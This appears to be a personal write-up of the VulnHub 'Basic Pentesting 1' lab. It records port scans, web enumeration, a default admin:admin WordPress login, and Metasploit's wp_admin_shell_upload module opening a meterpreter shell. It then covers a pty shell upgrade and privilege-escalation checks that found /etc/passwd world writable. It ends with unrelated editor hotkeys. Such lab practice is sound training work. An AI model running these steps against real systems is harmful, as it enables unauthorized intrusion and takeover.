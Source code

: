 https://www.vulnhub.com/entry/basic-pentesting-1,216/

Difficulty: EASY


---

**S1REN's Template Reference**

\[OS]: Linux 3.2 - 4.14
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.6 
\[USERS]:   
\[CREDENTIALS]:  
http://vtcsec/secret/wp-login.php - admin:admin

---
\[To-Try LIST]:  

21 ftp     ProFTPD 1.3.3c:
- anonynmous:anonymous failed
- searchsploit
![[Pasted image 20250819112711.png]]

80 http    Apache httpd 2.4.18
/secret - WP Site 
/server-status

Later:
SSH 22 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).


--- 

\[Web Services Enumeration]:   

-  http://192.168.100.6 
- View Page Source - reveals nothing
- No Robots.txt

dirb $URL /usr/share/wordlists/dirb/common.txt  
Found 13

gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/secret
/server-status: You don't have permission to access this resource.

wpscan --url $URL/secret --disable-tls-checks --enumerate p --enumerate t --enumerate u
XML-RPC seems to be enabled: http://192.168.100.6/secret/xmlrpc.php
WordPress readme found: http://192.168.100.6/secret/readme.html
The external WP-Cron seems to be enabled: http://192.168.100.6/secret/wp-cron.php
WordPress version 4.9 identified (Insecure, released on 2017-11-16).
User(s) Identified:admin 

admin is default WP username - try default password "admin" - - Otherwise brute force??
- success


Many Links - don't resolve: can't find the server at vtccsec
Add vtcsec to /etc/hosts
Now it loads properly:
login page available: http://vtcsec/secret/wp-login.php

wpscan - http://vtcsec/secret/wp-login.php

```
msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
```
Set values accordingly:
![[Pasted image 20250819114258.png]]
meterpreter session opened


---


\[OTHER / PRIVILEGE-ESCALATION]:   

``` bash
meterpreter> shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@vtcsec:$ 

```

unix-privesc-check from pentest monkey. 
```
meterpreter> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check
shell
python -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
chmod +x unix-privesc-check
./unix-privesc-check standard | grep WARNING
```

/etc/passwd - world writable!! -> can work from this



msf6 > search ProFTP 1.3.3c



--- 
Take Away Concepts: 
Tools utilised:
- netdiscover
- nmap
- dirbuster/gobuster
- 


HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
